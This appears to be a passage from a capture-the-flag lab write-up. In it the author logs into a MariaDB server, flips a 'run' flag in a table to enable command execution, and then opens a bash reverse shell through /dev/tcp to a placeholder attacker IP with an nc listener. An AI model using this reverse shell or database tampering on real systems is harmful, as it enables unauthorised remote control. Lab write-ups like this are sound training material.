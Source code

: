 To connect remotely use `mysql -u runcheck -p -h $IP` and enter the password:
```
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 26
Server version: 5.7.32-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]>
```
So lets play around
```mysql
MySQL [(none)]> SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| runornot           |
+--------------------+

```
Cool, lets check out the databases:
```
MySQL [(none)]> use runornot;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [runornot]> SHOW TABLES;
+--------------------+
| Tables_in_runornot |
+--------------------+
| runcheck           |
+--------------------+
MySQL [runornot]> SELECT * FROM runcheck;
+------+
| r**  |
+------+
|    0 |
+------+
```
Hey, lets change this value!
```
MySQL [runornot]> SELECT * FROM runcheck;
+------+
| r**  |
+------+
|    0 |
+------+
1 row in set (0.048 sec)

MySQL [runornot]> UPDATE runcheck SET run = 1
MySQL [runornot]> SELECT * FROM runcheck;
+------+
| r**  |
+------+
|    1 |
+------+
```
Now we can try `/whatever` again.</br>
![whatever-works](whatever-works.png)
</br> Alright, so we can run commands now. Can we get a reverse shell? Enter `/bin/bash -c "bash -i >& /dev/tcp/YOUR_THM_IP/8888 0>&1"` and run `nc -lvnp 8888` seperately. And bam! Reverse shell!